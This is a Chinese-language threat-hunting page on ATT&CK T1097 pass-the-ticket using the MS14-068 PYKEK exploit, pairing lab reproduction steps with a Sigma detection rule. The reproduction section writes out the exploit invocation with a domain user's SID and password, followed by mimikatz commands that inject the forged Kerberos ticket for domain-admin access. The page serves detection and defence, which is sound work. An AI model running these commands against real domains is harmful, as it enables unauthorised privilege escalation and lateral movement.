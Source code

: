 # T1097-windows-MS14-068-PYKEK

## 来自ATT&CK的描述

票据传递攻击（PtT）是一种不访问账号密码而使用Kerberos凭据对用户进行身份认证的方法。Kerberos身份认证可以是横向移动到远程系统的第一步。

在使用PtT技术时，可通过凭据导出技术获取有效账号的Kerberos票据。PtT可能会获取到用户的服务票据或票据授予票据（TGT），具体取决于访问级别。服务票据允许访问特定资源，而TGT可用于从票据授予服务（TGS）请求服务票据，用来访问用户有权访问的任何资源。

PtT技术可以为使用Kerberos作为身份认证机制的服务获取白银票据，并用于生成票据来访问特定资源和承载该资源的系统（例如，SharePoint）。

PtT技术还可以使用密钥分发服务账号KRBTGT帐户NTLM哈希来获得域的黄金票据，从而为活动目录中的任一账号生成TGT。

## 测试案例

可参考：[内网渗透之PTH&PTT&PTK](https://www.bbsmax.com/A/A7zgkjRPz4/)

## 检测日志

windows 安全日志（AD域控日志）

## 测试复现

测试步骤

域控主机（Windows server 2008）
域内主机（Windows 7 SP1）

```cmd
whoami /user #域内主机查找当前用户SID
dir \\DC\C$  #查看访问DC的权限
ms14-.exe -u 域成员名@域名 -s 域成员sid -d 域控制器地址 -p 域成员密码 #域机器是可以和域控制器互通则会创建.ccache文件
```

票据注入

```cmd
mimikatz # kerberos::purge         //清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造
mimikatz # kerberos::list          //查看当前机器凭证
mimikatz # kerberos::ptc 票据文件   //将票据注入到内存中
```

使用mimikatz将票据注入到当前内存中，伪造凭证，如果成功则拥有域管理权限，可任意访问域中所有机器

## 测试留痕

测试留痕文件：[MS14-068-PYKEK-windows.log](https://github.com/12306Bro/Threathunting-book/tree/master/Eventdata/MS14-068/PYKEK)

## 检测规则/思路

```yml
title: MS14-068-PYKEK
description: windows server 2008 / windows 7
references: https://github.com/ThreatHuntingProject/ThreatHunting/blob/master/hunts/golden_ticket.md
tags: T1097
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: Security
detection:
    selection1:
        EventID: 4624 #账户登录
        Account Domain: '*.*' #新登录>账户域(正常情况下，账户域应为ABC，当存在PYKEK攻击时，账户域为ABC.COM)
        Account Name: '*' #新登录>账户名(不同于安全标识的帐户，此条件实现起来较为复杂)
    selection2:
        EventID: 4672 #管理员登录
        Account Domain: '*.*' #账户域(正常情况下，账户域应为ABC，当存在PYKEK攻击时，账户域为ABC.COM)
    selection3:
        EventID: 4768 #Kerberos TGS请求
        Supplied Realm Name: '*.*' #已提供的领域名称(正常情况下，已提供的领域名称应为ABC，当存在PYKEK攻击时，已提供的领域名称为ABC.COM)
    timeframe: last 5s
    condition: all of them
level: medium
```

## 参考推荐

MITRE-ATT&CK-T1097

<https://attack.mitre.org/techniques/T1097/>

内网渗透之PTH&PTT&PTK

<https://www.bbsmax.com/A/A7zgkjRPz4/>

